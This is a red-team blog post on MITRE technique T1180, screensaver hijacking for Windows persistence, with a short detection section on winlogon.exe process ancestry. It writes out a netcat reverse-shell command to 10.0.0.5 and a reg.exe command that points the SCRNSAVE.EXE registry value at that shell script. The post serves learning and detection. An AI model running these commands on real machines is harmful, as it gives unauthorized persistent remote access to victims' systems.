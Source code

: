 ```yaml
---
layout: post
title: "2024-06-18-t1180 screensaver hijack"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1180-screensaver-hijack/
---
```


---
description: Hijacking screensaver for persistence.
---

# Screensaver Hijack

## Execution

To achieve persistence, the attacker can modify `SCRNSAVE.EXE` value in the registry  `HKCU\Control Panel\Desktop\` and change its data to point to any malicious file.&#x20;

In this test, I will use a netcat reverse shell as my malicious payload:

{% code title="c:\shell.cmd@victim" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e cmd.exe
```
{% endcode %}

Let's update the registry:

![](../../.gitbook/assets/screensaver-registry.png)

The same could be achieved using a native Windows binary reg.exe:

{% code title="attacker@victim" %}
```bash
reg add "hkcu\control panel\desktop" /v SCRNSAVE.EXE /d c:\shell.cmd
```
{% endcode %}

![](../../.gitbook/assets/screensaver-reg.png)

## Observations

Note the process ancestry on the victim system - the reverse shell process traces back to winlogon.exe as the parent process, which is responsible for managing user logons/logoffs. This is highly suspect and should warrant a further investigation:

![](<../../.gitbook/assets/screensaver-shell (1).png>)

![](../../.gitbook/assets/screensaver-logs.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1180" %}

@spotheplanet
